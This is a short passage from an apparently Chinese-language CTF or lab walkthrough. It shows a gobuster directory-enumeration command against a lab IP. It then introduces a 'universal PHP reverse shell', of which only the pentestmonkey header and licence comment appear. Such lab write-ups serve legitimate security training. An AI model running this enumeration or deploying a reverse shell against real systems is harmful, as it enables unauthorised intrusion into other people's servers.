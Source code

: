 [![](assets/1706771526-aea2486b96341d92ae762958b765488c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223142-1f17f904-beb3-1.png)

## Find directories on the web server using the GoBuster tool.

[![](assets/1706771526-8a3d2c1117d9b21d40a78c5eb93e8008.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223146-2154e7f4-beb3-1.png)

```plain
gobuster dir -e -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,zip,html -u 10.10.92.61
```

万能 php 反弹 shell

```plain
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
```